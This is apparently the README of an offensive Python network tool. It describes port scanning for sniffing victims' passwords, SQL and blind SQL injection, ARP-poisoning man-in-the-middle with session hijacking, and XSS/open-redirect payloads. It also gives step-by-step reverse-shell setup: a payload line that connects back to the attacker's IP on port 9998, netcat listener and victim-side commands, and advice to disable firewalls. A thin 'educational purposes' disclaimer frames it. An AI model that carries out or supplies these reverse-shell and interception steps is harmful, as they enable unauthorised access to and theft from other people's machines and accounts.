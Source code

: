 # CustomNetworkTool
❗ Do not use it for malicious purposes, it's only for educational purposes.
 Stay in Legal !!!!!

 
Usage: git clone https://github.com/YusufMarall/CustomNetworkTool.git
cd NetworkTool
python3 CNTool.py


![Ekran görüntüsü 2024-06-17 155733](https://github.com/YusufMarall/CustomNetworkTool/assets/114530242/eb208ca9-b528-49f3-8ac4-adccd54fd553)


## Remarks and Instructions for Use

This tool is designed to perform various network and security tests. Below you can find each mode and instructions for use.

### if(r==1)
####Scanning Port Similar to  Nmap
I wrote a module similar to Nmap, but faster than Nmap because I only scan specific ports. This works like this:

- If one of the specific ports I scan is open, I can use a network analyzer like Wireshark to monitor the traffic coming through that port. For example, when port 8080 (HTTP) is open, if our victim logs into an HTTP site through this port, I can see sensitive information such as his password.

### if(r==2)
#### Showing Website Content and SQL Injection Attempt
1. **Show Website Content**:
   - Shows the content of the website. If we know JavaScript, we can manipulate this content very easily.

2. **SQL Injection Attempt**:
   - Attempts SQL injection by sending our payloads with specific codes to the URL. If there is a database, this attack can be successful.

### if(r==3)
#### Man-in-the-Middle (MitM) Attack
1. **Man-in-the-Middle (MitM) Attack**:
   - ARP (Address Resolution Protocol): Maps a MAC address to an IP address.
   - ARP Poisoning: A cyber attack technique commonly used in local area networks. Using ARP poisoning, it can monitor and modify the communication between two devices without interrupting it. In this case, it can monitor and modify all traffic between the gateway (router) and the target device. For example, by monitoring the traffic between the gateway and the user, an attacker can intercept sensitive information (passwords, credit card information, etc.) sent by the user.

2. **Data Capture**:
   - With ARP poisoning, the attacker can redirect all network traffic of the target device to his own device and analyze this traffic. In this way, the attacker can capture and record all data passing through the target device.

3. **Session Hijacking**:
   - It can hijack sessions by capturing session cookies. This can be used to take over a user's session and gain unauthorized access to the user's accounts.

4. **Modifying Network Traffic**:
   - Can modify data packets between two devices. For example, it can modify web pages, redirect users to fake websites or inject malware into network traffic.

### if(r==4)
Blind sql injection does injection is a type of SQL Injection attack that asks the database true or false questions and determines the answer based on the application's response and learns the database name
### if(r==5)
#### Reverse Shell and Netcat Usage
Reverse shell code creates payload and works like a backdoor. With Netcat, we can attack file uploading, eavesdropping, etc.

*Step 1: Make sure that the `payload.py` file on the victim machine is using the correct IP address and port. Check that your IP address is correct and the port you are listening on is 9998:
```python
s.connect(('YOUR_IP_ADDRESS', 9998)) # Replace YOUR_IP_ADDRESS with the IP address of your own machine
*Step 2: Set the Listening Machine Correctly
Make sure to start listening with netcat on the listening machine. Make sure you are listening using the correct port:
Linux:
nc -lvp 9998
*Step 3: Check Firewall and Firewalls
Firewalls or network firewalls on the listening machine and the victim machine may be blocking the connection. Try temporarily turning off the firewall on both machines:
Linux:
sudo ufw disable
Windows:ping YOUR_IP_ADDRESS
Step 4: Check Network Connectivity
Make sure that the network connection from the victim machine to the listening machine is working. Check the connection by pinging from the victim machine to the listening machine:
Windows:
ping YOUR_IP_ADDRESS
Linux:
ping YOUR_IP_ADDRESS
Step 5: Perform a Simple Connectivity Test with Netcat
Start listening with netcat on the listening machine:
Linux:
nc -lvp 9998
Try to establish a connection using netcat on the victim machine:
Linux:
nc YOUR_IP_ADDRESS 9998.

### if r==6
###xss Cross-site scripting attack
###Open redirect vulnerability:
Explicit redirection vulnerabilities occur when an application insecurely incorporates user-controllable data into a redirection destination.
An attacker can generate a URL within the application that causes a redirection to an arbitrary external domain.
Hint===?redirect={payload}
